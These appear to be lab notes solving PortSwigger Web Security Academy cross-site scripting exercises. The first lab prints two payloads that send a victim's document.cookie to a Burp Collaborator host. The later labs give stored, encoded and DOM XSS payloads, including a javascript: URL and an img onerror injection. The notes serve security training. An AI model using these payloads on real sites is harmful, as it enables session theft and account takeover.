 # Lab: Exploiting cross-site scripting to steal cookies

Should comment an HTTP request script injection to your burp collaborator:
```javascript
<script>
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", 'https://mtjd42yn0x885vau3go892l4wv2oqd.burpcollaborator.net/?'+document.cookie, false ); // false for synchronous request
xmlHttp.send( null );
</script>
```
Then we will see the user's session cookie and we can just call my account with the user's cookie and solve the challenge.

Atlernative script is:
```html
<script>
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```

# Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

User intercept to capture a
Transfer this URL to the URL encoded and send the comment with the repeatrer
```http
https://acf81f301e4b67d580700be400e800d3.web-security-academy.net/?&apos;-alert(1)-&apos;
```
To get:
```http
https%3A%2F%2Facf81f301e4b67d580700be400e800d3.web-security-academy.net%2F%3f%26%61%70%6f%73%3b%2d%61%6c%65%72%74%28%31%29%2d%26%61%70%6f%73%3b
```
To get the packet:
```http
POST /post/comment HTTP/1.1
Host: ac161f701f431094801ba0b10084008a.web-security-academy.net
...
csrf=sPboZoDOXp9ocZN9gfV0LKueKLwMSoCC&postId=2&comment=aaaa&name=ddddd&email=asdsad%40sadfgsdf.com&website=https%3A%2F%2Facf81f301e4b67d580700be400e800d3.web-security-academy.net%2F%3f%26%61%70%6f%73%3b%2d%61%6c%65%72%74%28%31%29%2d%26%61%70%6f%73%3b
```



# Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
Browse to 'feedback' page, change the url and click back
```
https://acb21f0a1ef32c1381a8b596007000af.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

# Lab: Stored DOM XSS
There was a stored XSS on the blog-comments page, later proccessed by js.
The vulnerable code:
```javascript
commentBodyPElement.innerHTML = escapeHTML(comment.body); 
...
function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

Our comment in the blog:
```html
<spam>
<img src='1' onerror="alert(1)">
```